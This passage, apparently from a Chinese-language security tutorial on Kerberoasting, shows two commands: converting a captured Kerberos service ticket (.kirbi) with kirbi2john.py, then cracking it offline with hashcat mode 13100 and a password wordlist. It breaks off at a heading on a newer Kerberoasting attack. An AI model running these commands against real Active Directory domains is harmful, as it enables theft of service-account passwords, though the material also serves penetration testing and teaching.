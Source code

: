 ```plain
python kirbi2john.py tgs.kirbi
```

[![](assets/1708919803-dfcfbeff14c7f0690a7de9349db37635.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142119-edf5f47a-ce25-1.png)

使用`hashcat`进行破解

```plain
hashcat -m 13100 '/home/kali/Desktop/hashes' '/home/kali/Desktop/10_million_password_list_top_100000.txt' --force
```

[![](assets/1708919803-8233120275e3c955f2f3508829758357.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142127-f2dedd8a-ce25-1.png)

## 新 kerberoasting 攻击
